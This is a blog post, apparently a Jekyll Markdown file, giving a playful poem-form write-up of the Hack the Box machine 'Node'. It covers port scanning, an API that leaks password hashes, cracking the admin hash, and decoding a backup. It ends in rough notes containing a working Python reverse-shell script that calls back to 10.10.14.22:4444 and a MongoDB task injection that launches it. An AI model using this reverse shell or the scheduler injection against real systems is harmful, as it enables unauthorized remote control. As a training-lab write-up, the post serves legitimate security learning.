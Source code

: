 ```yaml
---
layout: post
title:  "Hack the Box - Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to (https://hackthebox.eu)[hackthebox]. In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your sweet response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

You past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must always be followed. Its hash looked weak.
Indeed, it was. (https://crackstation.net)["manchester"].

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories, encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}


`mark`...?
`mark`.
"Who is this `mark`"? I wondered. What boundries had you let him pass?
Nevermind, I have his secret. ``

password via john - secret word
backup_key = 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
mark password for mongo: 5AYRft73VtFpc84k and ssh
/var/scheduler/app.js > runs mongo tasks
db.auth("mark","5AYRft73VtFpc84k")
insert tasks to print flag
FIRST BLOOD BABY
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.14.22',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
use scheduler to run
db.tasks.insert({"_id":"1","cmd":"python /tmp/over/over.py"})
get shell
reverse backup to see that it blacklists characters and needs a key
run from / and backup /root
get key
win


_fin_
